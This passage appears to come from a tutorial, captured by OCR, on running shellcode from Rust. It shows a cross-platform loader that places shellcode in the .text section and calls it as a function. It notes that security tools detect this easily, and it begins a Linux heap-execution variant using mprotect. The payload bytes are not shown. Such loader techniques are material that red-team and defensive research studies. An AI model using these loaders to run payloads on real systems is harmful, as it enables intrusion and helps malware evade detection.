 ```
#[cfg(target_os = "linux")]
static SHELLCODE: [u8; 48] = *include_bytes!("shellcode_linux.bin");

#[no_mangle]
#[link_section = ".text"]
#[cfg(target_os = "windows")]
static SHELLCODE: [u8; 217] = *include_bytes!("shellcode_windows.bin");

fn main() {
    let exec_shellcode: extern "C" fn() -> ! =
        unsafe { mem::transmute(&SHELLCODE as *const _ as *const ()) };
    exec_shellcode();
}
```


We can see here that we're using the "#[link_section = ".text"]" macro to insert our shellcode directly into the ".text" section of our binary.

We then retrieve the shellcode address from memory and convert it into a function pointer that we can call.

Here's how it works on Linux and Windows:

![alt text](../exec_shellcode_in_local_img1.png)
![alt text](../exec_shellcode_in_local_img2.png)

The good thing about this technique is that it's simple, cross-platform and requires no use of the operating system.

The ".text" section is not writable, so we can't use any encoder to obfuscate our shellcode. Malicious code will therefore be quickly detected by security solutions.

### Execution in a dynamic allocation

Executing shellcodes in dynamic allocations consists in allocating a block of memory with execution rights on the heap of our process, copying our shellcode into it, then directly calling this block of memory as if it were the code of a function.

This little trick requires calls to the operating system's APIs, so we'll divide this technique into two for Linux and Windows.

#### Linux

To execute shellcode in a dynamic allocation on Linux, we're going to use the "libc" module, which will enable us to interact directly with the "mprotect" system call, which will enable us to modify the permissions of a memory allocation that we're going to create using a simple instance of Rust's "Box". The aim here is to add the right to execute, which is not present by default.

We'll then retrieve the address of this allocation and convert it into a function pointer that we'll call.
```
.
├── Cargo.lock
├── Cargo.toml
└── src
 ├── main.rs
 └── shellcode.bin
```
```
# src/main.rs

use libc::{mprotect, PROT_EXEC, PROT_READ};
use std::{ffi::c_void, mem};

const SHELLCODE: &[u8] = include_bytes!("shellcode.bin");

```